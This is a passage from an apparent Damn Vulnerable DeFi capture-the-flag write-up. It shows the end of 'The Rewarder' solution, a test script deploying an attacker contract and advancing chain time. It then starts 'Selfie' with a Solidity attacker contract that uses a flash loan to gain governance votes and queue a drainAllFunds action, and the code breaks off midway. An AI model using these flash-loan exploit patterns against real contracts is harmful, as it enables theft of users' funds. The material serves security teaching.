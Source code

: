 Instead of running a local blockchain and wait 5 days, we can use the `evm_increaseTime` rpc method to increase the time for the next block. This only works for some local nodes. Read the [hardhat references docs](https://hardhat.org/hardhat-network/docs/reference). Now that you know, deploy + attack:

```js:test/the-rewarder/the-rewarder.challenge.js
    /** CODE YOUR EXPLOIT HERE */
    const RewardAttackerFactory = await ethers.getContractFactory('RewardAttacker', attacker);
    const rewardAttacker = await RewardAttackerFactory.deploy(
        this.flashLoanPool.address,
        this.rewardToken.address,
        this.rewarderPool.address,
        this.liquidityToken.address
    );

    // Advance time 5 days so that depositors can get rewards
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days

    await rewardAttacker.attack(TOKENS_IN_LENDER_POOL);
```

## Challenge #6 - Selfie

Again, we have a snapshot token. This time, we want to attack the contract that governs the pool. The `SimpleGovernance` allows anyone to queue an action as long as they have enough votes. We can take advantage of the `SelfiePool.flashLoan` to get as much governance tokens as we can to queue an action to the `SimpleGovernance.actions`. Anyone can then execute the queued action after 2 days.

### Solution

Our contract should look like this:

```sol:contracts/attacker-contracts/selfie/SelfieAttacker.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../../selfie/SelfiePool.sol";
import "../../selfie/SimpleGovernance.sol";
import "../../DamnValuableTokenSnapshot.sol";

contract SelfieAttacker {
    SelfiePool selfiePool;
    SimpleGovernance simpleGovernance;
    address attacker;

    constructor(SelfiePool selfiePoolAddress, SimpleGovernance simpleGovernanceAddress, address attackerAddress) {
        selfiePool = selfiePoolAddress;
        simpleGovernance = simpleGovernanceAddress;
        attacker = attackerAddress;
    }

    function attack(uint256 amount) external {
        // take a flash loan from the selfie pool
        selfiePool.flashLoan(amount);
    }

    function receiveTokens(DamnValuableTokenSnapshot governanceToken, uint256 amount) external {
        // selfie time
        governanceToken.snapshot();

        // queue action
        bytes memory data = abi.encodeWithSignature(
                "drainAllFunds(address)",
                attacker
```